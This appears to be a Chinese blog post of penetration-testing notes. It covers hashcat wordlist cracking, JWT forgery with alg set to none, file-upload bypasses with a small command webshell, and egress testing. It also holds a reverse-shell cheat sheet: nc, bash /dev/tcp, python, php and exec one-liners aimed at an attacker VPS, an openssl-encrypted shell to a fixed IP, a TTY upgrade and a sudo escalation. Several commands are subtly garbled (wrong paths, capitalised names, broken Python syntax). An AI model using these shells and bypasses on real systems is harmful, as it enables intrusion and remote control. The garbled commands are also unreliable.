


前言
大佬文章链接如下，针对其中一些技术点做了笔记：
社工字典与hashcat
一般md5爆破不出的，有可能是强口令。针对强口令，可以选择制作具有社工属性的密码。此处实用工具：hashcat
在hashcat/rules/中，dive.rule可以模仿学习生成类似的密码字典。
Hashcat --stdout base.txt -r /usr/share/hashcat/rules/dive.rule -o tmp1.txt
Strings tmp1.txt > tmp2.txt
Sort -u tmp2.txt > se_passwds.txt
Rm -rf tmp?.txt
hashcat --attack-mode 0 hashpasswd se_passwd.txt --show想了想,之后每次重复这个步骤太麻烦,直接写了个shell脚本.之后只要调用此脚本,输入基础用户名,就会自动生成具备社工属性的字典,并使用hashcat破解.
注：有py脚本同样有这个功能，名字叫pydictor，在github上有。
JWT
作者在上传功能中,仔细审查报文后发现存在token。
![token格式]（1.png）
可以看到，同时存在token和cookie两个字段。一般token用于身份验证,或者是防CSRF。
如果是身份验证,那没必要和cookie同时存在；而如果是防CSRF,一般是hash值才对,而不是图片中三段式的base64编码.于是作者将每段解码。发现是JWT格式
##什么是JWT
JWT是用来替代cookie的一种身份认证方式.
服务端对JWT处理不好的话,很容易造成垂直越权.但是JWT的签名和是对信息头和数据两部分结合密钥进行哈希生成,服务端通过签名保证数据的完整性和有效性.
##攻击JWT常见的有三种手法:
1.未校验签名
未校验签名,就是有些服务端没对签名进行校验,所以尝试修改token之后直接发给服务端,然后查看结果.
2.禁用哈希
禁用哈希通常是直接把header中的”alg”字段进行修改成none,使用python脚本可以完成
Import pyjwt //导入pyjwt库
Jwt.encode({‘user’:’admin’,’action’:’upload’}),algorithm=’none’,key=’’)
另外,某些JWT对大小写敏感,所以可以修改成None,nOne,NONE进行尝试
3.爆破弱密钥
JWT密钥爆破工具:
https://github.com/lmammino/jwt-cracker
不过只支持字符穷举,可以写脚本来进行配合
针对文件上传
针对文件上传,需要注意4个点
1.文件的路径,一般会在上传后将路径回显在应答中.或者右键图片路径,有时可以把查询文件路径的接口保存,方便后续操作.
在上传图片后,需要修改后缀名.文中在修改后上传报错,一般是有几个关键:
2.服务器对内容进行检测是否存在脚本代码:针对这个只要把代码修改成普通文本.
3.服务器检测了文件头,:针对这个检测,在请求中修改文件头即可.不过需要注意的是,png头存在不可见字符,可能会导致解析错误.修改成全是可见字符的gif头即可.
4.为了防止waf拦截,可以上传一个命令执行的小马.
另外,任意文件上传攻击，遇到服务端扩展名白名单的场景，除了常规的解析漏洞手法外，还可能关注本地文件包含漏洞（LFI），以及 HTTP 参数污染漏洞（HPP），特别是 HPP，在突破白名单限制时，很有杀伤力。
反弹shell
反弹shell失败的话,原因一般有以下几点:
反弹命令不存在、禁止了出口流量 、限定向外访问端口、流量审查，对这四点依次做判断
##反弹命令是否存在
判断命令是否存在,可以用whereis命令查看相关命令是否存在:
比如 whereis nc bash python php exec

这张图,就是说明PHP不存在,其他反弹命令都可使用.
常见的反弹方法
Nc反弹:
nc <ur_vps> 1024 -e /bin/sh有的nc不支持-e参数,有两种解决方法
1.使用其他版本的nc:nc.tradtional
2.配合命名管道进行反弹:rm /rmp/f;mkfifo /tmpf;cat /tmp/f|/bin/sh -i 2>&1|nc
bash反弹:
/bin/bash -i >& /dev/tcp/<ur vps>/1024 0 >&1python反弹:
Python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“<ur vps>”,1024;));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno().2);p=subprocess.call([“/bin/sh”,”-i”]);’PHP反弹:
php -r '$sock=fsockopen("<your_vps>",1024);exec("/bin/sh -i <&3 >&3 2>&3");'exec反弹:
0<&196;exec 196<>/dev/tcp/<your_vps>/1024; sh <&196 >&196 2>&196是否禁用出口流量
某些目标会在防火墙上限制出口流量,禁止目标向外主动发起网络请求.可以通过带外(OOB)的方式进行验证.如下:
攻击者在自己的vps上监听某种协议的网络请求,在目标应用上用这种协议去访问vps.如果在vps上看到该协议的请求日志,就可以推断出目标允许的出口流量.
作者选用了无端口的协议进行出口流量测试,其中ICMP最单纯.因为ping命令随处可见,可以指定ping的包的大小方便过滤.
Ping -s64 -c1 <ur vps>
图中可以看出,实际发送了92个字节.那么以length 92为关键字进行查询
在vps上监控日志:
Tcpdump -i eth0 -n -v icmp | grep -i ‘length 92’接着,在目标机上再此执行ping命令:
最后在vps上就可以查看到大小为92的ICMP包
当这几步正常,并且vps上也收到数据之后,确认目标是允许出口流量的.
是否限定向外访问端口
某些目标会限定向外访问的端口,常见的有黑名单和白名单两种方式.比如4444端口;而白名单的话,比如只允许向外访问最常见的80端口.
注: 即使监听的是80端口,getshell的流量采用的也不是http协议,而是普通的socket
所以,尝试其他端口,判断是白名单还是黑名单.
根据先前回弹shell更换端口即可判断是白名单还是黑名单
是否流量审查
一般来说,流量审查的审查设备得得到明文流量数据才行,要防审查自然就想到了加密流量.所以反弹shell 的时候,不再简单的用bash反弹shell,而是先将原始流量用openssl加密.
加密方式:
在vps上生成SSL证书的公钥/私钥对
Openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes第二步:VPS监听反弹shell:
Openssl s_server -quiet -key key.pem -cert cert.pem -port 443第三步:在目标机上用openssl加密反弹shell的流量
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.80.137:81 > /tmp/s; rm /tmp/s第四步:vps上成功获得加密的哑shell
现在获得的仅仅只是简陋的哑shell,并非交互式shell.
以下是转换成交互式shell的方法:
在哑shell中执行:
Python -c ‘import pty;pty.spawn(“/bin/bash”)’键入ctrl-z 回到vps命令行中,在vps上执行:
Stty raw -echo
Fg第三步:回到哑shell
键入ctrl -l，执行
Reset
Export shell=bash
Export term=xterm-256color
Setty rows 54 columns 104尾声
针对提权,作者分享了一种提权手法:sudo误配提权
查看home/目录下是否存在.sudo_as_admin_successful文件
如果有的话,就可以输入当前低权账号的密码直接sudo su切换为root用户
最后
纸上得来终觉浅，最后还是要照着全部复现一遍，才能真正加神印象。